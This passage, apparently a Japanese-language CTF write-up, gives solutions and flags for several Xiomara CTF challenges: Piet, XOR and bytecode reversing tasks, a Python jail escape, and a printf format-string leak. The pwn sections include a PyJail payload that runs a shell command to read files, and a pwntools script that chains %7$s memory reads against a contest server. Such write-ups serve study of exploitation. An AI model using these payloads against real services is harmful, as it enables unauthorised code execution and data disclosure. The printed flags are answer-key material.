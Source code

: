 出てきた画像を Piet プログラムとして実行するとフラグが出力されました。

```
xiomara{piLet}
```

## [Reversing 75] Hunt Me

`flag{this_is_a_fake_flag_dig_deeper_:(}` と `\x1e\x05\x0e\n\x1a\x06\t\x12\no0,k\x13\x1a9U4\\-\x03XV8=T\x1c)h\x1d:\r%\x0bE\x1ah\t` を xor しているっぽい処理があります。やってみるとフラグが出てきました。

```
xiomara{y0Y_4rE_4_9re47_b0uN7y_hUn7ER!}
```

## [Reversing 100] EasyPie

Python のバイトコードを逆アセンブルした結果が与えられました。同じようなことをするコードを書いてしまいましょう。

```python
res = [0, -15, 6, -2, -12, 17, -17, 26, -4, -68, 44, 20, -6, -61, 59, -56, 44, 5, 5, -69, 61, -61, 0, 15, 58, -11, 10, -57, 49, -5, 13, -57, 0, 4, 70]
flag = ''
start = ord('x')
for x in res:
  start += x
  flag += chr(start)
print flag
```

```
xiomara{w3_sm0k3_di$a$$3mbl3d_l337}
```

## [Pwning 100] Secure Pyshell

PyJail 問でした。いろいろ試していると、`'` はダメで `"` は OK、`.` はダメ、print が関数なので Python 3 であるといったことがわかります。

`print(getattr(os, "system")("cat /home/pwn2/f*"))` でフラグが表示されました。

```
xiomara{$h3ll$_d0nT_l!3_wh3n_beat3n_uP_!n_j@!l}
```

## [Pwning 150] Hola!

`%x` で `Hola 400` が返ってきました。ユーザ入力をそのまま printf に投げているようです。

`%6$s` で `Hola I have got something interesting for you at 0x3c17980` と返ってきました。`python -c 'import struct; print struct.pack("<I", 0x3c17980) + "%7$s"' | nc 139.59.61.220 52345` で 0x3c17980 を見てみると `Hola ... Maybe try looking at 0x3c150a0` と返ってきました。

これが延々続くようなので自動化してしまいましょう。

```python
from pwn import *
a = 0x3c17980
while True:
  s = remote('139.59.61.220', 52345)
  s.sendline(p32(a) + '%7$s')
  r = s.recvall()
  print repr(r)
  try:
    i = r.index('0x')
  except:
    break
  a = int(r[i:], 16)
  if a & 0xff == 0:
    a += 1
```
